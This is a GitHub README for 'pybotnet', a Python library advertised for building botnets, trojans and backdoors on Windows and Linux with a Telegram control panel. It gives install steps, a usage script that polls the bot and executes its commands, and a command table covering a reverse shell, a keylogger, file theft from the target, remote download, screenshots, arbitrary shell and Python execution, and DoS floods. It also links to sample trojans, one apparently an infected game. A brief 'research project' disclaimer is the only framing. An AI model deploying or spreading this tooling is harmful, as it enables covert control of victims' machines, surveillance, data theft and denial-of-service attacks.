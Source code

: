  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>  <h1 align="center">pybotnet</h1>
  <p align="center"> A Python Library for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>

  <p align="center">
    <a href="https://github.com/onionj/pybotnet">
      <img src="https://img.shields.io/pypi/v/pybotnet?label=pybotnet" />
    </a>
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/github/license/onionj/pybotnet" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/pypi/pyversions/pybotnet" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf. 


> [Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی


### Features:
* Telegram anti-filter control panel
* reverse shell
* keylogger
* get target info 
* sleep source by Optional message
* export file to targets system
* import file from target system 
* get screenshot
* Task Scheduler
* Open Website
* Play Sound
* Denial-Of-Service Attack
* Run python code

for more, see commands table at the end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` `cmd cd ..`, `cmd ls` | run system command in shell or cmd (Be careful not to give endless commands like `ping google.com -t`  in windows or `ping google.com` in linux) | 0.07 | windows, linux|
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` | target donwload this file and save to script path | 0.14 | windows, linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB & 20min)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |
`/start` | `/start` | run `help` command !! | 0.18.7 | windows, linux |
`<MAC_Address> reverse_shell` or `reverse_shell`| `66619484755211 reverse_shell` and `exit` for exit!| start reverse shell on target system | 0.20.1 | windows, linux |
`keylogger` | `keylogger start` and `keylogger stop` to stop the keylogger | Starts a keylogger on victim's system. *keylogger can't handle persian words very correctly* | 0.21.1 | windows, linux 
`scheduler` | `scheduler start ,stop , list` | Adds a schedule | 0.25.3 | windows, linux
`playsound` | `playsound <sound-name>` | Will play a sound . Playsound can only play MP3 or WAV Files. | 0.25.3 | windows, linux
`openurl` | `openurl <url> <how-many-times>` | Will open a url n times. | 0.25.3 | windows, linux
`dos` | `dos <attack-type [GETFlood-ACKFlood]> <target-ip> <target-port> <thread-number> <payload-size>` | Will run Denial-Of-Service Attack. | 1.0.0 | windows
`runcode` | `runcode <code>` | Will run python code, The code should be written in a seperate line with correct python syntax, Because of python limitations , The function can't return the results. | 1.0.0 | windows
> If you like this repo and find it useful, please consider ★ starring it (on top right of the page) and forking it :)

> [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD)

> Sample GUI Trojan created by pybotnet: [VINET](https://github.com/onionj/vinet)

> Sample GUI Trojan created by pybotnet: [VINET](https://github.com/SepehrRasouli/GameInfectedWithPyBotNet)


## Contributors ✨
Thanks goes to these wonderful people

<table>
<td align="center"><a href="https://github.com/onionj"><img src="https://avatars.githubusercontent.com/u/77416478?v=4" width="70px;" alt=""/><br /><sub><b>oNion</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>

